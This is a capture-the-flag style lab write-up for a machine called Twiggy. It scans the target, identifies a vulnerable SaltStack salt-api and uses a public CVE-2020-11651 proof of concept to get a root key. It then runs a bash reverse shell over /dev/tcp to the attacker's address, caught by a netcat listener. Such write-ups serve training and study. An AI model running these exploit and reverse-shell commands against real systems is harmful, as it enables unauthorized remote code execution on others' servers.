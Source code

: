 # Recon

I do my initial scan to see which ports and services are open.

## nmapAutomator.sh Full
```
$ sudo ./nmapAutomator.sh -H twiggy.pg -t Full -o full

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

# Enumeration

## Port 8000 - nginx 1.16.1

`curl`'ing this service shows an `X-Upstream:` header set to `salt-api/3000-1`

![curl-salt-resp.png](../_resources/curl-salt-resp-2.png)

Checking `searchsploit` we see that there appears to be an exploit for this version.

# Exploit

I end up Googling around and test driving different exploits on GitHub, eventually settling for this one:

https://github.com/jasperla/CVE-2020-11651-poc
![373e815aa520362e3a9cfc7031aec68f.png](../_resources/373e815aa520362e3a9cfc7031aec68f-1.png)

`root key obtained: sxZXn5kSJ8GhLjvneaBPMAoMlbqbUNuZ2drFuheYR8r/goL8Iij0bGn7at8vI4Md1I5ESLm3+aw`

![03fdfcb00ca1d33a1fe5deb09d5677c1.png](../_resources/03fdfcb00ca1d33a1fe5deb09d5677c1-1.png)

`python3 exploit.py --master 192.168.70.62 --exec "ping 192.168.49.70"`

![b04030ace7803b85e7ed4c8282765e7c.png](../_resources/b04030ace7803b85e7ed4c8282765e7c-1.png)

`sudo tcpdump -i tun0 icmp`

![ffe57665d08820b789f52ad0d24b2996.png](../_resources/ffe57665d08820b789f52ad0d24b2996-1.png)

`python3 exploit.py --master 192.168.70.62 --exec "bash -i >& /dev/tcp/192.168.49.70/80 0>&1"`

![f59d31cd3ee31ca4dc9a76a562e168e8.png](../_resources/f59d31cd3ee31ca4dc9a76a562e168e8-1.png)

`sudo nc -nlvp 80`

![ce6704036c74e5cab812198a9fccf58e.png](../_resources/ce6704036c74e5cab812198a9fccf58e-1.png)